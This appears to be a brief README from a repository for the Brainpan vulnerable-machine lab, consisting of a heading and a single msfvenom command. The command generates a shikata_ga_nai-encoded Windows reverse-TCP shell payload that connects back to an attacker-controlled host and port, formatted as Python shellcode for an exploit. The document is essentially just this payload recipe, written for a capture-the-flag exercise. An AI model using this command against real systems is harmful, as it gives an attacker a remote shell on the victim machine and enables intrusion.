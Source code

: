 # Brainpan

## how to generate playload 

```
msfvenom -a x86 –platform win -p windows/shell/reverse_tcp LHOST=192.168.8.102 LPORT=8080 -b '\x00'  -e x86/shikata_ga_nai -f python
````

